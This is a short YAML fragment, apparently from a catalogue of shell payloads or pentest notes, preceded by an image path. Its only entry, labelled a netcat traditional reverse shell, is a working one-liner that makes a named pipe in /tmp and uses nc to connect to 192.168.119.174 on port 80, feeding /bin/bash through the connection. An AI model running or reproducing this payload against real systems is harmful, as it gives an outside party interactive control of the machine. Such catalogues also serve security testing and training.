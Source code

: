 ```yaml
---
functions:
  shell:
    - description: netcat traditional reverse shell
      code: |
        cd /tmp;rm -f x; mknod x p && nc 192.168.119.174 80 0<x | /bin/bash 1>x
---
```

